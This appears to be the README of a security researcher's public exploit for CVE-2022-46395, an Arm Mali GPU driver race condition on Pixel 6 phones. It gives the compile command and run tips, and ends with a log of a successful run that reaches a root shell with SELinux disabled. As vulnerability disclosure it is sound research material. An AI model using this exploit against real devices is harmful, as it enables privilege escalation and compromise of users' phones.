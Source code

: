 ## Exploit for CVE-2022-46395

The write up can be found [here](https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug). This is a bug in the Arm Mali kernel driver that I reported in November 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 with the Novmember 2022 and January 2023 patch. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_user_buf.c mempool_utils.c mem_write.c -o mali_user_buf
```

The exploit should be run a couple of minutes after boot and is likely to have to run for a few minutes to succeed. It is not uncommon to fail the race conditions hundreds of times, although failing the race condition does not have any ill effect and the exploit as a whole rare crashes. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_user_buf                                       
fingerprint: google/oriole/oriole:13/TQ1A.230105.002/9325679:user/release-keys
benchmark_time 357
failed after 100
failed after 200
failed after 300
benchmark_time 343
failed after 400
failed after 500
failed after 600
benchmark_time 337
failed after 700
failed after 800
failed after 900
benchmark_time 334
failed after 1000
failed after 1100
failed after 1200
benchmark_time 363
failed after 1300
finished reset: 190027720 fault: 135735849 772 err 0 read 3
found pgd at page 4
overwrite addr : 76f6100710 710
overwrite addr : 76f5f00710 710
overwrite addr : 76f6100710 710
overwrite addr : 76f5f00710 710
overwrite addr : 76f5d00710 710
overwrite addr : 76f5b00710 710
overwrite addr : 76f5d00710 710
overwrite addr : 76f5b00710 710
overwrite addr : 76f6100fd4 fd4
overwrite addr : 76f5f00fd4 fd4
overwrite addr : 76f6100fd4 fd4
overwrite addr : 76f5f00fd4 fd4
overwrite addr : 76f5d00fd4 fd4
overwrite addr : 76f5b00fd4 fd4
overwrite addr : 76f5d00fd4 fd4
overwrite addr : 76f5b00fd4 fd4
result 50
oriole:/ # 
```
